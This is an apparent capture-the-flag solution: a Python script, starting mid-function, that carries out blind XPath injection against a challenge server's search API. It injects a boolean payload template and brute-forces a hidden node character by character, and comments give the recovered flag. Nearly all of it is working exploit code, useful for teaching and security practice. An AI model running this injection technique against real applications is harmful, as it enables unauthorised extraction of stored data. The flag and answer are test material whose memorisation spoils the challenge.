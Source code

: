 ```python
	elif 'staff member exists.' in resp:
		return True
	else:
		return False


def xpath_inject():
	url = "http://139.59.190.72:30526/api/search"

	payld_temp = "rh0x01' or _LEFT_ = _RIGHT_ and '3'='3"
	
	
	flag_data = ''
	
	# extract first half of the flag

	for charPos in range(1,22): # first half of the flag in one element

		left = 'substring(/military/district/staff/selfDestructCode,%d,1)' % charPos

		for char in range(1,160): # printable ascii range 32 to 126
			payld = payld_temp.replace('_LEFT_',left)
			payld = payld.replace('_RIGHT_',"'%s'" % str(chr(char)))
			print(payld)
			res = send_payload(url,payld)

			if res:
				flag_data = flag_data + chr(char) # append to extracted data from ascii to char
				print('Flag Data : %s' % flag_data)
				break

	print("\n\n[+] Extracted first half of flag data: %s\n" % flag_data)


	# extract other half of the flag
	
	for charPos in range(1,15): # second half of the flag in one element

		left = 'substring((/military/district/staff/selfDestructCode)[last()],%d,1)' % charPos

		for char in range(32,127): # printable ascii range 32 to 126
			payld = payld_temp.replace('_LEFT_',left)
			payld = payld.replace('_RIGHT_',"'%s'" % str(chr(char)))
			print(payld)
			res = send_payload(url,payld)

			if res:
				flag_data = flag_data + chr(char) # append to extracted data from ascii to char
				print('Flag Data : %s' % flag_data)
				break

	print("\n\n[+] Extracted flag: %s\n" % flag_data)

xpath_inject()

# Flag received: CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0Tr0l}
# There's "n" missing on the last part that was needed to be manually added to submit correct flag
# Correct Flag : CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```

